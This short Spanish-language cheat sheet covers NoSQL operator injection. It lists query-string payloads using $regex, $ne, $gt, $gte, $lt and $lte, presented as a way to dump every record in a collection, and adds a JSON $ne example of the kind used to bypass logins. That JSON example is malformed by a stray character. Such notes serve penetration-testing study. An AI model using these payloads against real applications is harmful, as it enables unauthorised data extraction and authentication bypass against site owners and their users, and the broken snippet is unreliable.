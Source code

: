 ## INFO

Podemos aprovechar los operadores para forzar una exfiltración de toda la data de una colección:

### Regex:

        variable[$regex]=.\*

### No-Match

        variable[$ne]=noexistente

### Length

En este caso los terminos a buscar van en blanco.

Buscar todos los documentos que sean mayores que

        variable[$gt]=

Buscar todos los documentos que sean mayores o iguales a

        variable[$gte]=

### TILDA
Usamos la tilda para buscar todos los datos que sean menores a la misma (tilda es el valor imprimible más largo de los valores ASCII).

        variable[$lt]=~

Misma lógica con menor o igual:

        variable[$lte]=~


## En objetos JSON:

Podemos introducir estas queryes en objetos JSON dentro del value encerrado en llaves:

{
        "username": { "$ne" : "x"p}

}
